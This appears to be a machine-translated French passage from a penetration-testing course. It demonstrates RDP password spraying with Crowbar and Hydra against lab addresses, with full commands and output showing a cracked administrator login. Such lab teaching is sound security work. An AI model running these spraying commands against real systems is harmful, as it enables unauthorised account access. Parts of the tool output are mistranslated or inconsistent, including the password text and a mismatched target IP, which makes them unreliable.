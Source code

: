 ```
dsgsec@htb[/htb]# cat usernames.txt

racine
test
utilisateur
invité
administrateur
administrateur

```

#### Crowbar - Pulvérisation de mot de passe RDP

Crowbar - Pulvérisation de mot de passe RDP

```
dsgsec@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 DÉBUT
2022-04-07 15:35:50 Pied de biche v0.4.1
2022-04-07 15:35:50 Essayer 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrateur : mot de passe123
2022-04-07 15:35:52 ARRÊTER

```

Nous pouvons également utiliser `Hydra` pour effectuer une attaque par pulvérisation de mot de passe RDP.

#### Hydra - Pulvérisation de mot de passe RDP

Hydra - Pulvérisation de mot de passe RDP

```
dsgsec@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 par van Hauser/THC & David Maciejak - Veuillez ne pas utiliser dans des organisations militaires ou de services secrets ou à des fins illégales (ceci n'est pas contraignant, ces *** ignorent de toute façon les lois et l'éthique).

Hydra (https://github.com/vanhauser-thc/thc-hydra) à partir du 2021-08-25 21:44:52
[AVERTISSEMENT] Les serveurs rdp n'aiment souvent pas beaucoup de connexions, utilisez -t 1 ou -t 4 pour réduire le nombre de connexions parallèles et -W 1 ou -W 3 pour attendre entre les connexions pour permettre au serveur de récupérer
[INFO] Nombre de tâches réduit à 4 (rdp n'aime pas beaucoup les connexions parallèles)
[ATTENTION] le module rdp est expérimental. Veuillez tester, signaler - et si possible, corriger.
[DONNÉES] max 4 tâches par 1 serveur, 4 tâches au total, 8 tentatives de connexion (l:2/p:4), ~2 tentatives par tâche
[DONNÉES] attaquant rdp://192.168.2.147:3389/
[3389][rdp] hôte : 192.168.2.143 login : administrateur mot de passe : password123
1 cible sur 1 complétée avec succès, 1 mot de passe valide trouvé
Hydra (https://github.com/vanhauser-thc/thc-hydra) terminé le 2021-08-25 21:44:56

```
